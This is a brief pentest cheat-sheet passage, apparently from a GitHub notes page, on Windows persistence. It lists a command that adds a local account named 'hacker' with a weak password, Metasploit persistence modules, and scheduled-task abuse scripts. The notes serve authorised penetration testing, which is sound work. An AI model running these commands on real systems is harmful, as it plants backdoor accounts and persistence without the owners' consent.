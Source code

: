 Most common for a pentest (not a redteam engagement)
	`net user hacker password123 /add`
		Note this when being done as you will want to go back and remove it afterwards.

Persistence Scripts (Metasploit)
	`run persistence -h`
	`exploit/windows/local/persistence`
	`exploit/windows/local/registry_persistence`

Scheduled Tasks (also Metasploit)
	`run scheduleme`
	`run schtaskabuse`
